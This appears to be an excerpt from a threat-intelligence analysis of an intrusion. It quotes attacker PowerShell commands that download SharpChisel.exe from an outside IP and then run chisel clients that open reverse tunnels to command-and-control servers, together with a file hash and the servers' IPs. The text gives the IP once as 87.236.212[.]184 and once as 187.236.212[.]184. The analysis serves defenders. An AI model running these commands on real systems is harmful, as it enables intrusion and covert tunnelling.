

The next command issued is the following:
powershell.exe iwr -uri http://87.236.212[.]184/SharpChisel.exe -
outfile c:\programdata\SharpChisel.exe -usebasicparsing
The command is connected to 187.236.212[.]184 and downloads a file called SharpChisel.exe (SHA256: 61f83466b512eb12fc82441259a5205f076254546a7726a2e3e983011898e4e2) and saves the file to the C:\programdata directory. The name SharpChisel may be related to the purpose of this file, which is a C# wrapper for a tunneling tool called chisel. The above IP address is geolocated to a server in Iran.

The following command then configures SharpChisel:
C:\programdata\SharpChisel.exe client 87.236.212[.]184:8080 r:8888:127.0.0.1:9999
This directs all traffic to the localhost at port 9999 to the same remote server.

Another instance of SharpChisel with different settings is executed, this time using PowerShell using the following command line:
powershell.exe C:\programdata\SharpChisel.exe client 87.236.212[.]184:443 R:8888:127.0.0.1:9999
This time, traffic will be forwarded to the server over port 443.

A third SharpChisel instance that connects to a different C&C server at 23.95.215.100:8080 is started via the following command:
C:\programdata\SharpChisel.exe client 23.95.215[.]100:8080 r:8888:127.0.0.1:9999